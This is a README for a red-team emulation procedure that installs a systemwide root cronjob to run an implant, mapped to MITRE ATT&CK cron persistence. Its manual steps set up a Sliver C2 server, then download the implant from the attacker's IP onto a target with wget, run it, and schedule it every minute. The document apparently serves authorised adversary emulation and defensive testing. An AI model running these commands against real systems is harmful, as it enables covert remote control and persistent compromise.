 # Systemwide Cronjob

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP enables the addition of a systemwide cronjob to run a specified implant.

## Arguments

- **implant_name**: The name of the implant to run via the cronjob. Default is "/bin/ls".

## Prerequisites

1. The executor must have root access to the system.

## Examples

You can run the TTP using the following example (after updating the arguments):
```bash
ttpforge run forgearmory//persistence/linux/systemwide-cronjob/systemwide-cronjob.yaml \
  --arg implant_name=myimplant
```

## Steps

1. **setup**: This step checks if the crontab command is installed on the current system. If not, the TTP will exit with an error message.
2. **create-crontab-entry**: This step creates a new crontab entry to run the specified implant at a set interval.
3. **check-success**: This step checks if the crontab entry for the specified implant has been successfully created. If so, the TTP will exit with a success message. Otherwise, it will exit with a failure message.

## Manual Reproduction Steps

```
### Attacker Configuration
# Escalate privileges to root
sudo su

# Download and install Sliver
curl https://sliver.sh/install | sudo bash

# Create implants folder
mkdir implants

# Get public IP
# Note value for implant creation
curl icanhazip.com

# Run Sliver
sliver

# Generate implant
generate --http PUBLIC_IP_FROM_PREVIOUS_STEPS --save implants --skip-symbols --os linux

# Start listener
https -l 443

# Background the listener or open another tab
# and host the implant for download
pushd implants ; timeout 30 python3 -m http.server 8080 ; popd

### Target Configuration

# Escalate privileges to root
sudo su

# Set up fwdproxy if on a devserver
export https_proxy="http://fwdproxy:8080" && \
export http_proxy="http://fwdproxy:8080" && \
export HTTPS_PROXY=$https_proxy && \
export HTTP_PROXY=$http_proxy

# Download and execute c2 payload
wget "http://${PUB_IP_FROM_PREV_STEP}:8080/${IMPLANT_NAME}"
chmod +x "${IMPLANT_NAME}" &
./"${IMPLANT_NAME}"

echo "* * * * * cd ${HOME} && ./${IMPLANT_NAME}" > crontab_new
sudo crontab crontab_new
sudo crontab -l

# Clean up
echo '' > crontab_new
sudo crontab crontab_new
rm crontab_new
rm "${IMPLANT_NAME}"
unset https_proxy http_proxy HTTPS_PROXY HTTP_PROXY
```

## MITRE ATT&CK Mapping

- **Tactics**:
   - TA0003 Persistence
- **Techniques**:
   - T1053 Scheduled Task/Job
- **Subtechniques**:
   - T1053.003 Scheduled Task/Job Cron

